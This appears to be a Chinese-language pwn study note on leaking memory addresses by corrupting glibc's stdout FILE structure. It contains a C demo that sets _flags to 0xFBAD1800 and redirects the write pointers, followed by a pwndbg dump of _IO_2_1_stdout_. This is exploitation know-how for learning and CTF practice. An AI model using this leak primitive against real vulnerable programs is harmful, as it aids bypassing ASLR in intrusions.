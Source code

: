 ‍

‍

## `_IO_2_1_stdout_` 泄露地址

### ​_IO_2_1_stdout_​ 泄露地址-1

```c
#include<stdio.h>
#include<stdlib.h>

int main(){

    char stack_data[] = "0123456789abcdef";

    setbuf(stdout, 0LL);

    stdout->_flags           = 0xFBAD1800; // 关键点
    stdout->_IO_write_base   = stack_data;
    stdout->_IO_write_ptr    = stack_data + 0x20;


    puts("attack");

    //getchar();
    return 0;
}
```

```c
pwndbg> p _IO_2_1_stdout_
$2 = {
  file = {
    _flags = -72542208,
    _IO_read_ptr = 0x7ffff7dff643 <_IO_2_1_stdout_+131> "",
    _IO_read_end = 0x7ffff7dff643 <_IO_2_1_stdout_+131> "",
    _IO_read_base = 0x7ffff7dff643 <_IO_2_1_stdout_+131> "",
    _IO_write_base = 0x7fffffffe1c0 "0123456789abcdef",
    _IO_write_ptr = 0x7fffffffe1e0 "\001",
    _IO_write_end = 0x7ffff7dff643 <_IO_2_1_stdout_+131> "",
    _IO_buf_base = 0x7ffff7dff643 <_IO_2_1_stdout_+131> "",
    _IO_buf_end = 0x7ffff7dff644 <_IO_2_1_stdout_+132> "",
    _IO_save_base = 0x0,
    _IO_backup_base = 0x0,
    _IO_save_end = 0x0,
    _markers = 0x0,
    _chain = 0x7ffff7dfe8e0 <_IO_2_1_stdin_>,
    _fileno = 1,
    _flags2 = 0,
    _old_offset = -1,
    _cur_column = 0,
    _vtable_offset = 0 '\000',
    _shortbuf = "",
    _lock = 0x7ffff7e00710 <_IO_stdfile_1_lock>,
    _offset = -1,
    _codecvt = 0x0,
    _wide_data = 0x7ffff7dfe7e0 <_IO_wide_data_1>,
    _freeres_list = 0x0,
    _freeres_buf = 0x0,
    __pad5 = 0,
    _mode = 0,
    _unused2 = '\000' <repeats 19 times>
  },
  vtable = 0x7ffff7dfd070 <_IO_file_jumps>
```